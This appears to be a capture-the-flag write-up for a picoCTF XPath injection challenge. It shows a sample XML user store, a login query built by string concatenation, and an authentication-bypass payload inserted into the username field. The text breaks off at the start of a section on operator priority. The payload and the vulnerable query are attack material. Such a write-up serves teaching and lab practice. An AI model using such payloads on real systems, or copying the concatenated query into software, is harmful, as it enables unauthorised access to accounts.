 http://mercury.picoctf.net:16521/

The hints shows that it is about xpath.

Learning what is XPath:

https://matthung0807.blogspot.com/2017/12/xpath.html

https://zh.wikipedia.org/wiki/XPath

https://jiang-niao.github.io/2020/04/24/%E4%BB%8Ectf%E9%A2%98%E7%9B%AE%E4%B8%AD%E5%AD%A6%E4%B9%A0xpath%E6%B3%A8%E5%85%A5/



XPath Example:

```
<?xml version="1.0" encoding="UTF-8"?> 
<root>
  <users>
    <user>
      <id>1</id>
      <username>admin</username>
      <password type='md5'>e10adc3949ba59abbe56e057f20f883e</password>
    </user>
    <user>
      <id>2</id>
      <username>jiangniao</username>
      <password type='md5'>099ebea48ea9666a7da2177267983138</password>
    </user>
    <user>
      <id>3</id>
      <username>skbl</username>
      <password type='md5'>e995e9ba0c8ec5c9ce392b86bfece354</password>
    </user>
  </users>
</root>

```

The type of node is:

```
<?xml version="1.0" encoding="UTF-8"?>: processing-instruction node
<root>: root element node
<id>: element node
type='md5': attribute node
jiangniao: text node

```
How to use xpath? this is the sample:

```
/root/users/user[username/text()='".$name."' and password/text()='".$pwd."']

``` 

If you want to list all the text nodes, you can use wildcards "//\*", [starts-with(text(),'a')] meas that checking there has a text node start from 'a' or not.

```
//*[starts-with(text(),'a')]
```


Finally, the payload is :

```
' or //*[starts-with(text(),'a')] or 'a'='b

```

If you input this payload in username, the xpath search will like this:

```
/root/users/user[username/text()='' or //*[starts-with(text(),'a')] or 'a'='b' and password/text()='".$pwd."']

```

The priority of operator is:



